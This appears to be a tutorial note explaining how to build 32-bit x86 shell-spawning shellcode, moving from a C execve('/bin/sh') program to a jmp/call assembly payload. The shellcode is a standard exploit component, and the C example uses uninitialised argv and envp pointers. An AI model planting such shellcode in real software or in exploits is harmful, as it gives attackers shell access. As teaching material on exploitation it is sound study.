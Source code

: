To spawn a shell, we just need to make a system call to execute the `/bin/sh` shell program. System call number 11, `execve()`, is similar to the C `execute()` function.

![](../../zzz_res/attachments/execve.png)

- The **first argument** of the filename should be a pointer to the string "/bin/sh" , since this is what we want to execute.
- The **environment array** (the third argument) can be empty, but it still need to be terminated with a 32-bit null pointer.
- The **argument array** (the second argument) must be null-terminated, too; it must also contain the string pointer (since the zeroth argument is the name of the running program).

Done in C, a program making this call would look like this:

```c
#include <unistd.h>

int main() {
	char filename[] = "/bin/sh\x00";
	char **argv, **envp; // Arrays that contain char pointers
	
	argv[0] = filename; // The only argument is filename.
	argv[1] = 0; // Null terminate the argument array.
	envp[0] = 0; // Null terminate the environment array.
	
	execve(filename, argv, envp);
}
```

To do this in assembly, the argument and environment arrays need to be built in memory. In addition, the "/bin/sh" string needs to be terminated with a null byte. This must be built in memory as well. Dealing with memory in assembly is similar to using pointers in C. The lea instruction, whose name stands for load effective address, works like the address-of operator in C.

```asm6502
BITS 32

	jmp short two 		; Jump down to the bottom for the call trick.
one:
; int execve(const char *filename, char *const argv [], char *const envp[])
	pop ebx 			; Ebx has the addr of the string.
	xor eax, eax 		; Put 0 into eax.
	mov [ebx+7], al 	; Null terminate the /bin/sh string.
	mov [ebx+8], ebx 	; Put addr from ebx where the AAAA is.
	mov [ebx+12], eax 	; Put 32-bit null terminator where the BBBB is.
	lea ecx, [ebx+8] 	; Load the address of [ebx+8] into ecx for argv ptr.
	lea edx, [ebx+12] 	; Edx = ebx + 12, which is the envp ptr.
	mov al, 11 			; Syscall #11
	int 0x80 			; Do it.
	
two:
	call one ; Use a call to get string address.
	db '/bin/shXAAAABBBB' ; The XAAAABBBB bytes aren't needed.
```